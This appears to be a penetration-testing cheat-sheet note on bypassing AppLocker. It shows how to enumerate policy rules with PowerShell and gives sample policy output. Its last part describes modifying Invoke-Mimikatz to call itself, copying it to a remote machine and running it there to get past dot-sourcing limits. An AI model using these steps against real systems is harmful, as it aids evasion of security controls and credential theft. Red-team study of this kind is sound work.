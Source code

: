 # Bypassing AppLocker
If you get errors when running powershell commands relating to language modes, this will be due to AppLocker running in Constrained Language Mode.

There may be elements within the AppLocker policy that show weak spots and these can be used to bypass it.

 - Enumerate the AppLocker policy
`Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`
 - Look for sections that state the Action = Allow and the PathConditions surrounding this policy.
 - Conversely look for paths that might be blocked, which might highlight areas that are inherently allowed.

e.g.
```
PublisherConditions : {*\O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US\*,*}

PublisherExceptions : {}

PathExceptions      : {}

HashExceptions      : {}

Id                  : 5a9340f3-f6a7-4892-84ac-0fffd51d9584

Name                : Signed by O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US

Description         :

UserOrGroupSid      : S-1-1-0

Action              : Allow

PublisherConditions : {*\O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US\*,*}

PublisherExceptions : {}

PathExceptions      : {}

HashExceptions      : {}

Id                  : 10541a9a-69a9-44e2-a2da-5538234e1ebc

Name                : Signed by O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US

Description         :

UserOrGroupSid      : S-1-1-0

Action              : Allow

PathConditions      : {%PROGRAMFILES%\*}

PathExceptions      : {}

PublisherExceptions : {}

HashExceptions      : {}

Id                  : 06dce67b-934c-454f-a263-2515c8796a5d

Name                : (Default Rule) All scripts located in the Program Files folder

Description         : Allows members of the Everyone group to run scripts that are located in the Program Files folder.

UserOrGroupSid      : S-1-1-0

Action              : Allow

PathConditions      : {%WINDIR%\*}

PathExceptions      : {}

PublisherExceptions : {}

HashExceptions      : {}

Id                  : 9428c672-5fc3-47f4-808a-a0011f36dd2c

Name                : (Default Rule) All scripts located in the Windows folder

Description         : Allows members of the Everyone group to run scripts that are located in the Windows folder.

UserOrGroupSid      : S-1-1-0

Action              : Allow
```

You may also run into difficulties loading modules with dot sourcing with AppLocker in play.
e.g.
`. .\Invoke-Mimikatz.ps1`

You can edit the ps1 module and add a line at the bottom to call itself.
e.g. open invoke-mimikatz.ps1, browse to the end of the file and add a line
`Invoke-Mimikatz`

Copy that script to the remote machine
`Copy-Item Invoke-Mimikatz-modified.ps1 \\<servername\path `
Now in a remote session on the machine you can load the module without using dot sourcing, effectively importing the module and running it in one go.
`.\Invoke-Mimikatz-modified.ps1`